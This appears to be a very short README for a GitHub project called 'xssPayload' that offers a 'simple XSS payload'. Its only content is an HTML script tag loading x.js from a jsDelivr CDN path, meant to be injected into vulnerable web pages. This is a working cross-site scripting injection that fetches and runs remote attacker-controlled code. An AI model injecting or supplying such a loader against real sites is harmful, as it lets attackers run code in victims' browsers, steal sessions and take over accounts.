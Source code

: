 # xssPayload

Simple XSS payload

## Calling from cdn.jsdelivr.net

````HTML
<script src="https://cdn.jsdelivr.net/gh/recxjdv/A@B/x.js"></script>
````
